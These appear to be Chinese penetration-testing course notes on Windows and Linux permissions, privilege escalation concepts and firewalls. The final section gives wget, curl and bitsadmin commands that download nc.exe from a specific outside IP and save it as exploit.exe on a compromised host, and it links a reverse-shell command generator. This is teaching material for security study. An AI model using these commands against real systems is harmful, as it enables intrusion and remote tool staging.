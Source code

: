 ```plain
https://blog.csdn.net/weixin_43303273/article/details/83029138  //常用命令
```

- 基础案例1：操作系统-用途&命令&权限&用户&防火墙

```plain
1、个人计算机&服务器用机 区别操作服务和个人用机，用途
2、Windows&Linux常见命令 了解，以后知道怎么查和用就可以，https://blog.csdn.net/weixin_43303273/article/details/83029138
3、文件权限&服务权限&用户权限等 提权技术 默认拒绝权限比允许权限高 
4、系统用户&用户组&服务用户等分类
5、自带防火墙出站&入站规则策略协议（ACL）waf应用防火墙针对web 
权限满足不了目的，这时候就需要提权。Windows是最高权限是system，Linux是root
administrator删不了c:/system32,但是system用户是可以删除的

权限问题：用户权限，服务权限，文件权限。
文件权限：创建一个文件，右键属性，可以查看用户的权限，也可以进行修改。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721112815985-d2dd20f3-fa4b-4fc0-9f39-b0f896ff2b59.png)

设置拒绝后，

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721112816047-f4aa3bad-596e-4ea1-9b74-b9646ed4c7b8.png)

```plain
也会收到组里的权限影响。

低权限用户能做的事情是有限的，不足以完成需要完成的目的，这时候就需要用到提权。看用户和组的权限。
Windows权限：
system	最高权限	能够删除c:/system
administrator	管理员权限（自己定义）	不能删除c:/system
User	一般用户权限	有一些不能查看文件
Linux权限：
root	最高权限
其他用户	一般权限
防护墙：默认防火墙配置是允许网站协议通信，所以在测试的时候感觉开没开都没关系。但是内网渗透测试的时候，就会对协议有影响。
Windows自带防火墙defender，Linux自带iptable。也可以装第三方防火墙。
还有专门针对web防火墙waf，系统自带针对没有针对web的。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721112816222-1c8a1edc-166c-4acc-94ad-8976ecfb77f1.png)

- 实用案例1：文件上传下载-解决无图形化&解决数据传输

```plain
https://forum.ywhack.com/bountytips.php?download   下载命令，反弹shell命令，可以直接生成命令执行。
一般拿到权限只有cmd这个命令行，不能复制下载等，这时候就需要下载命令
直接访问www.xiaodi8.com/nc.exe 就可以直接下载
Linux：wget curl python ruby perl java等
Windows：PowerShell Certutil Bitsadmin msiexec mshta rundll32等
Linux - wget:wget http://47.100.167.248:8081/nc.exe -O exploit.exe
Linux - curl:curl http://47.100.167.248:8081/nc.exe -o exploit.exe
Windows-Bitsadmin:bitsadmin /rawreturn /transfer down "http://47.100.167.248:8081/nc.exe" c:\\exploit.exe
下载的时候也要看是否有权限执行，如果没有执行权限，那下载也不会成功

把NC.exe上传至根目录。在kali中执行wget http://47.100.167.248:8081/NC.exe -O exploit.exe，就可以下载文件。
```
